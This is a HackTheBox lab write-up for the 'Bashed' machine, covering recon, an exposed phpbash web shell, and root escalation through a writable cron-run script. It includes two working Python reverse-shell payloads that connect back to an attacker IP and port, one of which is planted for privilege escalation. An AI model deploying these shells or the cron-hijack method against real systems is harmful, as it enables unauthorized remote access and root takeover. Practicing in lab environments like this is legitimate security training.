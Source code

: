 ```yaml
---
title: Bashed
tags:
  - HackTheBox
  - Easy
  - Linux
  - Web
  - Cron-Job
---
```

![](Pasted%20image%2020241101181907.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.68 bashed.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- bashed.htb > sC.txt

[redacted]
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Arrexel's Development Site
```

So I took a look at the website:

![](Pasted%20image%2020241101182920.png)

It talks about a php script that creates a bash reverse shell from a php script. I took a look at the unique entry `phpbash`:

![](Pasted%20image%2020241101183046.png)

So as the author says that he used this script in this website, I decided to enumerate with [dirsearch 📁](/notes/tools/dirsearch.md) to try to find that script and use it:

```shell
dirsearch -e * -u http://bashed.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

[redacted]
[18:35:57] 301 -  309B  - /images  ->  http://bashed.htb/images/            
[18:35:59] 301 -  310B  - /uploads  ->  http://bashed.htb/uploads/          
[18:36:00] 301 -  306B  - /php  ->  http://bashed.htb/php/                  
[18:36:01] 301 -  306B  - /css  ->  http://bashed.htb/css/                  
[18:36:02] 301 -  306B  - /dev  ->  http://bashed.htb/dev/                  
[18:36:03] 301 -  305B  - /js  ->  http://bashed.htb/js/                    
[18:36:11] 301 -  308B  - /fonts  ->  http://bashed.htb/fonts/
```

So I took a look at the `/dev` subdirectory and found those scripts:

![](Pasted%20image%2020241101183906.png)

![](Pasted%20image%2020241101184013.png)

## Exploitation

I can execute commands, so I executed a python reverse shell (bash one didn't work):

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP_ATTACK",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> I got a shell!

![](Pasted%20image%2020241101185037.png)

So I checked if I could read the user flag (success):

![](Pasted%20image%2020241101185124.png)

## Privilege escalation

If we run `sudo -l`:

![](Pasted%20image%2020241101190011.png)

So the user `www-data` can run commands as `scriptmanager` without password. So we can perform a `sudo -u scriptmanager bash -i` to become `scriptmanager`.

Now, after some enumeration I found the `/scripts` directory, which contained two files:

![](Pasted%20image%2020241101190509.png)

It seems that a privileged user is running the `test.py` each some time. So I created a `.shell.py`:

```shell
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.16",888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

> Got a reverse shell as root :D

![](Pasted%20image%2020241101192000.png)

==Machine pwned!==

